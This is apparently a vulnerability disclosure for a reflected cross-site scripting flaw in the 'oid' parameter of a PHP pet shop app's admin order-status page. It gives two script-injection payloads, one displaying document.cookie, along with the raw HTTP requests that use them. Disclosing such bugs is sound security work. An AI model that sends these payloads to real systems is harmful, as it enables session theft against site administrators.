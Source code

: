 # Online Pet Shop We App v1.0 by oretnom23 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

BUG_Author: hujianjie

Vulnerability File: /pet_shop/admin/orders/update_status.php

Parameter "oid" (GET), exists XSS vulnerability

Payload1:oid=1"><script>alert(1111)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjie11.png)

Payload2:oid=1"><script>alert(document.cookie)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6im5937jlonn632osugpc051rl
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjiecookie.png)
